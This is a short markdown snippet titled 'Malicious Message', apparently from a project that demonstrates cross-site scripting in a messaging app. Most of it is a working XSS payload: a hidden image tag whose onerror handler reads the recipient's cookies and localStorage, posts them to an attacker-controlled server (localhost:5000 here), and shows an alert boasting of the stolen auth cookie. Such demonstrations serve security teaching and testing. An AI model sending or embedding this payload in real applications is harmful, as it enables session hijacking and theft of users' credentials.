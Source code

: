 # Malicious Message

Can execute arbitrary JavaScript in the recipient's browser. This example retrieves cookies and localStorage contents from the recipient's browser and sends them to the attacker's server.

```
How's it going? <img style="display:none;" src="http://url.to.file.which/not.exist" onerror="javascript:fetch('http://localhost:5000', { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({ localStorage: Object.entries(localStorage).map(e => `${e[0]}=${e[1]}`), cookies: document.cookie })}); alert(`I just stole your auth cookie ${document.cookie} and the contents of your localStorage ${Object.entries(localStorage).map(e => `${e[0]}=${e[1]}`)}`);">
```
